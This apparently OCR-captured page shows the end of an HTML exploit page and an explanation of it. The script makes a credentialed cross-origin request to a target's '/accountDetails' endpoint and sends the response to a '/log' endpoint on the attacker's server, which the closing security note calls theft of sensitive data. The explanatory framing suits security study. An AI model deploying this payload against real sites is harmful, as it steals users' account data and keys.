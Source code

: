 ```html

            // Define a function to handle the state change of the XMLHttpRequest object.
            xhr.onreadystatechange = function() {
                // Check if the request has completed (readyState == DONE).
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    // Send the response text from the previous request to the /log endpoint of the current origin.
                    fetch("/log?key=" + xhr.responseText);
                }
            };

            // Configure the XMLHttpRequest object to make a GET request to the account details endpoint.
            xhr.open('GET', url + "/accountDetails", true);

            // Indicate that the request should include credentials (cookies, authorization headers, etc.).
            xhr.withCredentials = true;

            // Send the configured HTTP GET request.
            xhr.send(null);

            <!-- End of the script -->
        </script>
    </body>
</html>
```

### Explanation of What the Code Does

1. **Creates a new XMLHttpRequest (`xhr`)**: This is used to send an HTTP request to a remote server (in this case, the `url` defined).
    
2. **Specifies the URL**: The `url` variable points to a remote target, and `/accountDetails` is appended to it for the request.
    
3. **Handles the Response (`xhr.onreadystatechange`)**:
    
    - The `onreadystatechange` function listens for changes in the request's `readyState`.
    - When the request completes (`readyState == DONE`), the response (`xhr.responseText`) is captured and sent to `/log` on the current domain using `fetch`.
4. **Sends the GET request**:
    
    - `xhr.open('GET', ...)` sets the request to be a GET request.
    - `xhr.withCredentials = true` includes cookies and other credentials for authenticated requests.
    - `xhr.send(null)` executes the request.

### **Security Note:**

This script demonstrates a Cross-Origin Resource Sharing (CORS) or Cross-Site Scripting (XSS)-like scenario where sensitive data (`xhr.responseText`) from the target server (`url`) is stolen and exfiltrated to a `/log` endpoint on the attacker's server. Such attacks are often used to exploit vulnerabilities in web applications.
